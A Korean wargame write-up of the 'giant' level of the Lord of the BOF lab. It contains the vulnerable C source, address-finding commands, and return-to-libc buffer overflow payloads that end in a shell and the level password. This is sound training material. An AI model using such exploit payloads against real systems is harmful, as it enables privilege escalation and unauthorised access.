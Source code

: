 # giant

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
        char buffer[40];
        FILE *fp;
        char *lib_addr, *execve_offset, *execve_addr;
        char *ret;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

처음 봤을 때 이게 뭔가 싶은 것들이 잔뜩 있었다. 하나씩 알아가보기엔 시간이 없음으로 write-up을 보면서 기능에 대해서만 공부하고 넘어가도록 하자.

popen은 파이프에 대한 함수이다. 안에서 일어난 명령어의 결과를 출력으로 전달해준다.

그럼 popen의 인자로 있는 명령어가 실행되는 것인지 확인해보자.

```bash
[bugbear@localhost bugbear]$ /usr/bin/ldd /home/giant
ldd: /home/giant: No such file or directory
```

파일을 만들거나 보는 것 전부 권한이 없기때문에 현재 디렉토리에 대해서 실행보자.

```bash
[bugbear@localhost bugbear]$ /usr/bin/ldd /home/bugbear/giant
        libc.so.6 => /lib/libc.so.6 (0x40018000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
[bugbear@localhost bugbear]$ /usr/bin/ldd /home/bugbear/giant | /bin/grep libc
        libc.so.6 => /lib/libc.so.6 (0x40018000)
[bugbear@localhost bugbear]$ /usr/bin/nm /lib/libc.so.6 | /bin/grep __execve
00091d48 t __execve
```

정상적으로 실행되는 것을 확인된다. 여기서는 ldd와  grep, nm에 대해서 알아야하는데 나중에 따로 정리하겠다.

이를 통해서 우리는 libc의 execve 주소를 알 수 있게 되었다. 주소는 0x400A9D48‬이다. 

이것은 이 방법뿐 아니라 copy를 뜬 giant 파일에서 print execve를 통해서도 같은 값이 나오는 것을 알 수 있다.

이제 ret에 execve를 덥고 RTL을 이용해 execve를 부른다.  

execve 함수는 인자로 명령어주소,  명령어주소의 주소, 환경변수 주소를 받기 때문에 귀찮은 일이 많아진다. 

함수를 통해 실행하고자 하는 건 /bin/sh이기 때문에 /bin/sh의 주소를 구하고 심볼릭 링크를 이용해서 명령어주소의 주소를 구하고 환경변수는 NULL값을 줘도 되므로 NULL값의 주소를 구한다. 

```bash
[bugbear@localhost bugbear]$ cat find.c
#include <stdio.h>
int main(){
        long system=0x40058ae0;
        while(memcmp((void*)system,("/bin/sh"),8)){
                system++;
        }
        printf("%p\n",system);
}
[bugbear@localhost bugbear]$ ./find
0x400fbff9
[bugbear@localhost bugbear]$ ln -s aaaaa `python -c 'print "\xf9\xbf\x0f\x40"'`
[bugbear@localhost bugbear]$ ls
aaaaa  find  find.c  giant  giant.c  ▒?@
[bugbear@localhost bugbear]$ gdb -q `python -c 'print "\xf9\xbf\x0f\x40"'`
(gdb)...(생략)
(gdb)
0xbfffff93:      "HOME=/home/bugbear"
0xbfffffa6:      "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/bugbear/bin"
0xbfffffe9:      "/home/bugbear/▒\017@"
0xbffffffc:      ""
0xbffffffd:      ""
```

/bin/sh의 주소는 0x400fbff9

/bin/sh의 주소의 주소는 0xbfffffe9

NULL의 주소는 0xbffffffc 이다.

이제 payload를 작성해서 공격해 보자. 

```bash
[bugbear@localhost bugbear]$ ./`python -c 'print "\xf9\xbf\x0f\x40"'` "`python -          c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xe9\xff\xff\          xbf"+"\xfc\xff\xff\xbf"'`"
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒H▒
@▒▒▒▒▒@▒▒▒▒▒▒▒▒
Segmentation fault
```

여러 방면으로 시도해보았지만 아무것도 되지 않는다. 그래서 일단 공격방법에 대한 이해를 했다고 생각하고 넘어가야할 것 같다. write-up에서 본 내 payload와 가장 비슷한 것으로 공격했다.

```bash
[bugbear@localhost bugbear]$ ./giant "`python -c 'print "\x90"*44+"\x48\x9d\x0a\x40"+"\x90"*4+"\xf9\xbf\x0f\x40"+"\xf8\xfa\xff\xbf"+"\xfc\xfa\xff\xbf"+"BBBB"*14+"\xf9\xbf\x0f\x40"'`"
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒H▒
@▒▒▒▒▒@▒▒▒▒▒▒▒▒BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB▒@
bash$ whoami
giant
bash$ my-pass
euid = 514
one step closer
bash$
```

bugbear의 password는 one step closer이다.